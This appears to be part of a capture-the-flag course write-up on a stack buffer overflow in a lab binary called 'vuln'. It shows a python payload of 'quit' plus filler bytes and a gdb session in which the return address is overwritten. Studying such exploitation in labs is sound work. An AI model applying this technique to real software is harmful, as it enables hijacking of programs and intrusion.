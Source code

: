 If the first four characters of the input are equal to "quit," then it is possible to overwrite the return address after 120 bytes have been sent to the program.

```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'quit' + b'A'*116 + b'BBBBBBBB')"
quitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
$ gdb vuln
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 10.1 using Python engine 3.9
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  r
Starting program: /home/nihaal/Desktop/ctf-courses/Pwn/PWN 303/vuln
quitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
quitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x00005555555551b1 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0xfffffff0
$rdx   : 0x4
$rsp   : 0x00007fffffffdfc8  →  "BBBBBBBB\n"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffdf50  →  "quitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x0000555555556004  →  0x0000000074697571 ("quit"?)
$rip   : 0x00005555555551b1  →  <main+92> ret
$r8    : 0x00005555555596b0  →  "quitAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x81
$r10   : 0x6e
$r11   : 0x4
$r12   : 0x0000555555555070  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfc8│+0x0000: "BBBBBBBB\n"         ← $rsp
0x00007fffffffdfd0│+0x0008: 0x00007fffffff000a  →  0x0000000000000000
```